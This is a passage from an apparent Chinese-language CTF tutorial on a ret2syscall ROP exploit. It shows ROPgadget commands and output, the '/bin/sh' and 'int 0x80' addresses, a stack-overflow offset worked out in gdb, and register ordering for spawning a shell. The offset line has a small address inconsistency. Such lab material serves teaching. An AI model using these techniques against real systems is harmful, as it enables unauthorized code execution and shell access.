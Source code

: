 ```bash
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

这里选取了

```
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

作为gadgets，因为它可以同时控制三个寄存器。

此外要获得 `/bin/sh` 的地址：

```bash
ROPgadget --binary rop  --string '/bin/sh'
```

得到：

```
Strings information
============================================================
0x080be408 : /bin/sh
```

接下来要找到 `int 0x80` 的地址：

```bash
ROPgadget --binary rop  --only 'int'
```

得到：

```
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

接下来我们用gdb调试，查看main的栈帧。

此时 `esp = 0xffffce00` ，`ebp = 0xffffce88` ，`v4 = 0xffffce1c` ，要覆盖的栈的大小为 `0xce88-0xcd1c+0x4=0x70` 。

这样前期的准备就相应完成了。

接下来payload是什么形式的呢？

首先是覆盖到返回地址，接下来要调整参数。

对于 eax 而言，其值为 0xb，则压入地址再压参数；

对于ebx, ecx, edx而言，压入顺序为edx, ecx, ebx；因此按照相应顺序压入即可。
